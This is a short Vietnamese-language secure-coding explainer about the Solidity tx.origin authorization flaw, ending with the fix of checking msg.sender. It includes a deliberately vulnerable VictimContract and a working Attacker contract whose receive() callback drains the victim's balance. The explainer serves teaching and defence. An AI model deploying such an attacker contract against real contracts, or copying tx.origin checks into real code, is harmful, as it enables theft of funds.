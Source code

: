 # Authorization through `tx.origin`

## Mô tả

Lỗ hổng này xảy ra khi smart contract dùng giá trị `tx.origin` để xác thực. Giá trị này là giá trị của địa chỉ thực hiện giao dịch và nếu smart contract A có gọi thực thi hàm của smart contract B thì smart contract B có thể vượt qua xác thực của smart contract A.

Ví dụ, xét hai smart contract sau:

```sol
contract VictimContract {
  
  address owner;

  constructor() {
    owner = payable(msg.sender);
  }

  function withdrawFunds(address to) public {
    require(tx.origin == owner);
    uint256 contractBalance = address(this).balance;
    (bool suceed, ) = to.call{value: contractBalance}("");
    require(suceed, "Failed withdrawal");
  }
  
}

contract Attacker {
  
  address owner;
  VictimContract victim;
  
  constructor(VictimContract _victim) {
    owner = payable(msg.sender);
    victim = VictimContract(_victim);
  }
  
  receive() external payable {
    victim.withdrawFunds(owner);
  }
  
}
```

Smart contract `VictimContract` cho phép chủ sở hữu rút ETH thông qua hàm `withdrawFunds` bằng cách dùng hàm `call` để gửi ETH cho địa chỉ `to`. Hàm này thực hiện xác thực bằng cách so sánh `tx.origin` với địa chỉ của chủ sở hữu. 

Để nhận ETH, smart contract `Attacker` đã cài đặt hàm `receive`. Tuy nhiên, hàm này thực hiện gọi lại hàm `withdrawFunds` của `VictimContract` với đối số là `owner` của `Attacker`.

Kẻ tấn công sẽ tìm cách dụ chủ sở hữu của smart contract chuyển ETH cho `Attacker`. Khi đó, `tx.origin` sẽ có giá trị là `owner` và việc gọi lại hàm `withdrawFunds` của `Attacker` sẽ thỏa điều kiện xác thực `tx.origin == owner`.

## Cách khắc phục

Sử dụng `msg.sender` thay vì `tx.origin` để xác thực.
